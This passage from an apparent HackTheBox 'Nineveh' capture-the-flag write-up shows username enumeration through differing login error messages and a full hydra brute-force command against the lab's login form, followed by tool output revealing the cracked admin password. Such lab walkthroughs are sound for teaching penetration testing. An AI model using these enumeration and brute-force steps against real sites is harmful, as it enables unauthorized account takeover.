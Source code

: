 Viewing the source-code reveals an important thing that there are atleast two users: `amrois` & `admin` 

![nin-2](https://user-images.githubusercontent.com/87711310/213499016-7b4e1498-8905-4883-b3f5-6163ff1b7f9a.png)

I tried common passwords(admin:admin, admin:password123, etc) but it was of no use. There was another thing that I noticed. 

If I try to login with the user `admin` and a random password we get the error `Invalid Password!`, whereas if we try to login with the user `amrois` and a random password we get the error `invalid username`. 

This verbose message that is outputted by the application allows us to enumerate usernames. So far, I knew that `admin` is a valid user.

I intercepted the request using `Burp` to get the exact error I was getting: `Invalid Password!` so that I could use this to brute-force the password using `hydra`

![n-2](https://user-images.githubusercontent.com/87711310/213497267-8fb9b8e6-2e02-41e7-8fa7-50415745930a.png)

```
hydra -l 'admin' -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form "/department/login.php:username=^USER^&password=^PASS^&Login=Login:Invalid Password!"
```
NOTE: You need to change the double-copy and re-enter them if you copy and paste it from here

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Nineveh]
└─$ hydra -l 'admin' -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form "/department/login.php:username=^USER^&password=^PASS^&Login=Login:Invalid Password"
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-19 11:59:06
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://nineveh.htb:80/department/login.php:username=^USER^&password=^PASS^&Login=Login:Invalid Password
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[STATUS] 2421.00 tries/min, 2421 tries in 00:01h, 14341978 to do in 98:44h, 16 active
[VERBOSE] Page redirected to http://nineveh.htb/department/manage.php
[80][http-post-form] host: nineveh.htb   login: admin   password: 1q2w3e4r5t
[STATUS] attack finished for nineveh.htb (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-1-19 11:35:12
```

It found the valid password! Log into the application using the credentials we found.

Visit the Notes tab. We get the following text.

![n-3](https://user-images.githubusercontent.com/87711310/213497269-a01275d4-acc1-49db-aeb1-9e2cd617c0c8.png)

One thing to notice is the URL that generates the page looks like a file path.
